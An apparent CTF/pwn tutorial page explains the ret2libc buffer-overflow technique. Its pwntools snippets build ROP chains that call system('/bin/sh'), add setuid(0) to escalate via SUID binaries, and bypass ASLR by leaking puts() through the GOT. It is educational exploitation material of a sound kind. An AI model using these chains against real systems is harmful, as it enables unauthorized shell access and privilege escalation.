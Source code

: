 ```yaml
---
description: Using a buffer overflow to call the libc system("/bin/sh") function
---
```


# ret2libc

## Theory

The idea of ret2libc is returning to a function defined in the libc library. A common one is the `system()` function allowing you to execute shell commands and with the `"/bin/sh"` argument an interactive system shell. Just like calling a function with arguments as in [ret2win.md](ret2win.md "mention"), we jump to this `system()` function with a string argument found in the same libc binary.&#x20;

This technique is really useful when there is no `win()` function to jump to, as this `system()` function is essentially the same as a win function, but not specific to any binary.&#x20;

## Exploit

To call a function with a string argument, we need two things. The address of the function, and the address to the string that will be the argument.&#x20;

If ASLR is disabled, this first part is simple. We just need the address of the `system()` function which can be found if we have a copy of the libc binary the remote server uses. It may be given in the challenge, or it may not. If it is not given, you can try to find it by leaking addresses as explained later in [#bypassing-aslr](ret2libc.md#bypassing-aslr "mention") and looking them up in the [libc database](https://libc.blukat.me/) to find any matches.&#x20;

Then we need the string, which can be easily found using PwnTools. Every libc version has a "/bin/sh" string inside by default, which we can abuse. The code will look something like this:

```renpy
libc = ELF("./libc.so.6")

rop = ROP(libc)
#rop.call(rop.ret)  # Might be needed to align the stack (try with/without)
rop.system(next(libc.search(b"/bin/sh")))  # Find the "/bin/sh" string and call system()
rop.exit()  # Clean exit after stopping the shell

payload = flat({
    OFFSET: rop.chain()
})
```

After sending the payload, you can get a nice interactive shell with the `p.interactive()` function:

```renpy
p.sendline(payload)  # Trigger shell

p.interactive()  # Make shell interactive in terminal
```

{% hint style="warning" %}
In case you are exploiting a [suid.md](../linux/linux-privilege-escalation/suid.md "mention") binary, this shell will likely not escalate your privileges yet. To do this, you first have to call `setuid(0)` to use your given permissions. In the ROP chain, you can simply include this call:

<pre class="language-renpy"><code class="lang-renpy">...
<strong>rop.setuid(0)  # Set to the UID of the owner of the SUID binary
</strong>rop.system(...
</code></pre>
{% endhint %}

## Is ASLR enabled?

Most often Address Space Layout Randomization (ASLR) is enabled on the remote machine (and likely yours too). You can check if it is by reading the `/proc/sys/kernel/randomize_va_space` file:

* `0`: Disables ASLR. In this mode, the kernel does not randomize the location of the stack, shared libraries, or executable code.
* `1`: Enables ASLR for user-space applications only. The kernel randomizes the location of the **stack**, shared **libraries**, and **executable code** for user-space applications.
* `2`: Enables ASLR for all processes, including the kernel itself. In addition to randomizing the location of user-space applications, the kernel also randomizes the location of the kernel stack, heap, and other kernel components.

Only `root` should be able to write to this file and change the setting. When enabled, it makes many loaded addresses randomized on each binary run, making it impossible to guess beforehand what they will be.

If you don't have access to the machine to read this file, another way to check is just to test if you can jump somewhere you know. For example, **simply jumping to the start of `main()`** to see if the program restarts on the remote instance. If it successfully repeats the main function, ASLR is likely off which will make any exploit much simpler. If it crashes, or just closes the connection, it likely jumped to an invalid address and segfaulted.&#x20;

## Bypassing ASLR

Simply jumping to the `system()` function won't work here, because we need to know what randomized address to jump to. But to make it work again, we simply need to leak any libc address, because all the addresses will still be the same **relative** to each other. Leaking such an address can be done in a few different ways, but one common method is using the Procedure Linkage Table (PLT) and the Global Offset Table (GOT).&#x20;

We want to somehow leak the address of any libc function, which can be done by **printing** the value. If the original binary uses any `puts()`, `printf()` or similar functions, those functions will be saved in the PLT. The address to this table is not randomized by ASLR, so we can use it to print the value at any address we want. The GOT just happens to store the randomized addresses to used libc functions, which can be printed using this method. The code looks something like this:

```renpy
elf = ELF("./binary")

rop = ROP(elf)
rop.puts(elf.got["puts"])
```

This would print some binary data being the leaked address to the libc `puts()` function, but then it likely crashes the program because we corrupted the flow. But since we control the return addresses, we can simply restart the program after we leaked the address, now with the knowledge of this leaked address!

<pre class="language-renpy"><code class="lang-renpy">rop = ROP(elf)
rop.puts(elf.got["puts"])
<strong>rop.main()
</strong>
payload = flat({
    OFFSET: rop.chain()
})
</code></pre>

After sending this payload, the first bytes you will receive are the address we are looking for. After that, the program restarts and we can do the buffer overflow again but now having bypassed ASLR by leaking a libc address. We can extract the address from the printed binary data like so:

```renpy
p.sendline(payload)

# Note: Try some different things here locally for your program to find a consistent 
#       way to extract the address. Here the first 6 bytes are taken
r = p.recv(6)
leak = u64(r.ljust(8, b"\x00"))  # Unpack data
success("Leaked puts(): %#x", leak)
```

Finally, now that we have leaked the address we can calculate the relative offset with where the `puts()` function would normally be in libc:

```renpy
libc = ELF("./libc.so.6")

libc.address = leak - libc.symbols["puts"]
```

The above line of code will set the base address of libc making any future calls like `rop.system()` work automatically.&#x20;

As the program restarts, now it becomes the same as in [#exploit](ret2libc.md#exploit "mention"). We just need to call the `system()` function with the `"/bin/sh"` string:

```renpy
rop = ROP(libc)
#rop.call(rop.ret)  # Might be needed to align the stack (try with/without)
rop.system(next(libc.search(b"/bin/sh")))  # Find the "/bin/sh" string and call system()
rop.exit()  # Clean exit after stopping the shell

payload = flat({
    OFFSET: rop.chain()
})
p.sendline(payload)
p.interactive()
```

Putting it all together results in an example script like the following:

{% file src="../.gitbook/assets/ret2libc.py" %}
An example script of ret2libc bypassing ASLR by leaking puts()
{% endfile %}
